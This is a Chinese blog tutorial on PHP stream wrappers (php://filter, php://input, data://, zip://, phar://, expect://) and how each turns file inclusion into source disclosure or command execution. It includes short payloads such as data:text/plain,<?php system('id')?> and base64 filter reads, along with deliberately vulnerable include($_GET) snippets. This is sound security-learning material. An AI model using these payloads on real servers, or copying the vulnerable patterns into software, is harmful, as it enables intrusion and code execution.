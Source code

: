 ```yaml
---
title: php伪协议
date: 2017-08-27 00:37:29
categories: web
tags: php
---
```


本文参考的是 Hello_C的php伪协议这篇文章，内容大部分时粘贴过来的。当然也参考了先知上的文章：[https://xianzhi.aliyun.com/forum/mobile/read/795.html](https://xianzhi.aliyun.com/forum/mobile/read/795.html)——如何优雅的把lfi转化为rce（2017-02-27更新版）。当然，先知上的文章有点问题，因为web用户可能没有那么高的权限去访问log文件或者打开allow_url_include设置。

### PHP协议/封装协议

| 包装或协议              | 控制能力                    | allow_url_include | 漏洞类型      | 备注                                       |
| ------------------ | ----------------------- | ----------------- | --------- | ---------------------------------------- |
| file://            | -                       | Off               | LFI /文件操作 |                                          |
| glob://            | -                       | Off               | 目录遍历      |                                          |
| php://filter/read  | include                 | Off               | 文件泄露      | PHP：//filter/read=convert.base64-encode/resource=index.php |
| php://filter/write | file_put_contents       | Off               | 编码        | file_put_contents(“php://filter/write=string.rot13/resource=x.txt”,”content”); |
| php://input        | include                 | On                | RCE       | Encoding is required while reading .php source: <?php echo base64_encode(file_get_contents(“solution.php”));?> OR just use <?php system(‘cat x.php’);?> |
| data://            | include                 | On                | RCE       | data:text/plain,<?php system(“id”)?> OR data:text/plain;base64,PD9waHAgc3lzdGVtKCJpZCIpPz4= |
| zip://             | include + uploaded file | Off               | RCE       |                                          |
| phar://            | include + uploaded file | Off               | RCE       | PHP版本> = 5.3                             |

php中支持的伪协议

```
file:// — 访问本地文件系统
http:// — 访问 HTTP(s) 网址
ftp:// — 访问 FTP(s) URLs
php:// — 访问各个输入/输出流（I/O streams）
zlib:// — 压缩流
data:// — 数据（RFC 2397）
glob:// — 查找匹配的文件路径模式
phar:// — PHP 归档
ssh2:// — Secure Shell 2
rar:// — RAR
ogg:// — 音频流
expect:// — 处理交互式的流
```

这里可以参考[官方文档](http://php.net/manual/zh/wrappers.php)进行查看。而遇见最多的也就是php://协议了：

- #### php://stdin

  主要用于php cli的输入

```
<?php  
while($line = fopen('php://stdin','r')){  
    echo fgets($line);  
}  
?>
```

[![img](http://i4.buimg.com/567571/f0b778051856c477.jpg)](/images/2017-07-28/f0b778051856c477.jpg)

- #### php://stdout

  主要用于php cli的输入`<?php  $fh = fopen('php://stdout', 'w');  fwrite($fh, "标准输出php://stdout\n");  fclose($fh);  fwrite(STDOUT, "标准输出STDOUT\n");  ?>`

[![img](http://i4.buimg.com/567571/e62036bab64c514b.jpg)](/images/2017-07-28/e62036bab64c514b.jpg)

- #### php://input

  可以读取到post没有解析的原始数据`<?php   echo file_get_contents($_GET["a"]);  ?>`

[![img](http://i4.buimg.com/567571/caba05f9460d9dbe.jpg)](/images/2017-07-28/caba05f9460d9dbe.jpg)
当php代码换成

```
<?php  
$code = $_GET['a'];  
include($code);  
?>
```

而且当php远程包含打开的时候（当allow_url_include=on),就可以造成任意代码执行。
[![img](http://i4.buimg.com/567571/52bcb6ca96711975.jpg)](/images/2017-07-28/52bcb6ca96711975.jpg)

- #### php://output

  是一个只写的数据流， 允许你以 print 和 echo 一样的方式 写入到输出缓冲区`<?php   $code=$_GET["a"];   file_put_contents($code,"test");   ?>`

[![img](http://i4.buimg.com/567571/ab8f21052b4e2890.jpg)](/images/2017-07-28/ab8f21052b4e2890.jpg)

- #### php://filter

  是一种元封装器， 设计用于数据流打开时的筛选过滤应用`<?php  $filename=$_GET["a"];  $data="test";  file_put_contents($filename, $data);  ?>`

?a=php://filter/write=string.tolower/resource=test.php
可以往服务器中写入一个文件内容全为小写且文件名为test.php的文件：
其中 ：
（1）string.tolower //写入内容全部变成小写
（2）string.toupper //写入内容全部变成大写
（3）string.rot13 //写入内容全部对字符串执行 ROT13 编码
通过：?a=php://filter/convert.base64-encode/resource=test.php
可以往服务器中写入一个文件内容为base64编码且文件名为test.php的文件
[![img](http://i2.muimg.com/567571/f80e4710de9ee31d.jpg)](/images/2017-07-28/f80e4710de9ee31d.jpg)

```
<?php  
$filename=$_GET["a"];  
echo file_get_contents($filename);  
?> 

<?php  
$filename=$_GET["a"]; 
include("$filename");  
?>
```

?a=php://filter/convert.base64-encode/resource=test.php,就可以把test.php的内容以base64编码的方式显示出来

双引号包含的变量$filename，可以当成正常变量执行，而单引号包裹的变量则会当成字符串

- 

那么可以用?hax=expect://command 来执行任意linux指令，但是：
Note:该封装协议默认未开启
为了使用 expect:// 封装器，你必须安装» PECL 上的 » Expect扩展。

- #### data://

  数据流封装器
  当allow_url_include 打开的时候，任意文件包含就会成为任意命令执行`<?php  $filename=$_GET["a"];  include("$filename");  ?>`

[![img](http://i4.buimg.com/567571/19570d7acea8b8a7.jpg)](/images/2017-07-28/19570d7acea8b8a7.jpg)

参考链接：
[http://blog.csdn.net/niexinming/article/details/52605144](http://blog.csdn.net/niexinming/article/details/52605144)

- **本文作者：** Hello_C
- **本文链接：** [http://yoursite.com/代码/2017/04/09/PHP伪协议.html](http://yoursite.com/%E4%BB%A3%E7%A0%81/2017/04/09/PHP%E4%BC%AA%E5%8D%8F%E8%AE%AE.html)
- **版权声明： **本博客所有文章除特别声明外，均采用 [CC BY-NC-SA 3.0](https://creativecommons.org/licenses/by-nc-sa/3.0/) 许可协议。转载请注明出处！